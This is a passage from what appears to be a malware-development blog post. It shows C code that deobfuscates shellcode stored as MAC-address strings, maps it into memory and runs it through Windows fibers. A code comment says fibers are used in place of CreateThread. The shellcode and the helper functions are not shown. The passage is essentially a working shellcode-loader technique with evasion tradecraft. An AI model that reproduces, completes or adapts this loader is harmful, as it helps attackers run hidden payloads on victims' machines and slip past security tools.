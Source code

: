 
	PVOID  mapped_address = NULL;

	// I will use fibers to execute the shellcode instead of using CreateThread
	PVOID fiber1 = ConvertThreadToFiber(NULL);


	// used to store size and the new address of the shellcode after deobfuscation 
	PVOID raw_shell_add = NULL;
	SIZE_T raw_shell_size = NULL;


	if (fiber1 == NULL) {
		printf("[-] Failed to convert thread to fiber.\n");
		return 1;
	}
	
    //  Deobfuscating the shellcode
	MacDeobfuscation(MacArray, NumberOfElements, &raw_shell_add, &raw_shell_size);


	if (!map_inj(raw_shell_add, raw_shell_size,&mapped_address ))
	{
		return -1;
	}


	PVOID fiber2 = CreateFiber(NULL, (LPFIBER_START_ROUTINE)mapped_address, NULL);

	SwitchToFiber(fiber2);


	return 1;
   
}

{{< /highlight >}}



## Let's Cook Mr. White

<img src="/images/mapping/ironman.jpg" alt=""